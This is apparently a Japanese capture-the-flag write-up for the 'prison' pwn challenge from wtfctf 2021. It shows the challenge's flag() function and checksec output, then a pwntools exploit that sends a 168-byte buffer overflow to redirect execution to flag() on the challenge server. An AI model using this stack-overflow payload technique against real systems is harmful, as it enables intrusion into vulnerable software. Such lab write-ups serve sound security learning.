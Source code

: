 
<br />

flag()関数も用意されています。

{{< highlight c "linenos=table,hl_lines=" >}}
void flag(void)

{
  system("cat flag.txt");
  return;
}
{{< / highlight >}}

<br />

checksecの出力結果。

<pre>
$ checksec prison
[*] '/home/captureamerica/OneDrive/CTF/wtfctf_2021/prison'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br />

結局、build_prison()でBOFを起こしてflag()関数を呼ぶだけのことで、他の箇所は無視しても大丈夫です。

<br />

オフセットは gdb で確認したところ、168バイトでした。


{{< highlight python "linenos=table,hl_lines=" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
s = remote("20.42.99.115", 3213)
s.sendlineafter(": ", "1")
s.sendlineafter(": ", "1")
s.sendlineafter(": ", "1")
s.sendlineafter(": ", "1")
s.sendlineafter(": ", "1")

elf = ELF('./prison')
addr_flag = elf.symbols["flag"]

payload = ''
payload += b'A' * 168
payload += p64(addr_flag)
s.sendlineafter("Where is this prison: ", payload)
print(s.recvall())
{{< / highlight >}}
